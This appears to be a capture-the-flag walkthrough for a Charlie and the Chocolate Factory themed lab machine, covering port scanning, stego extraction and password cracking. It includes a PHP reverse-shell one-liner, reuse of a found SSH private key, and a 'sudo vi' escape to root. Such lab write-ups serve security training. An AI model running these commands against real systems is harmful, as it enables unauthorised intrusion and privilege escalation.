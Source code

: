 ```yaml
---
title: charlie and the chocolate factory CTF
premalink: /chocolate
---
```

# Charlie and the Chocolate Factory

## Open Ports:
```
nmap  $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : http://localhost/key_rev_key
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

** Now you have the access to the machine**
* go to /home/charlie

* You will find teleport file which is a id_rsa file(ssh-key)
* copy the contents of the file to host machine
* change the permission of the teleport file in the host machine
```
chmod 600 teleport
ssh -i teleport charlie@ip
```
## Port 22

* cd /home/charlie
```
cat uesr.txt
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
## root 


* go to /root
```
python root.py
```
* Enter the key found after reversing

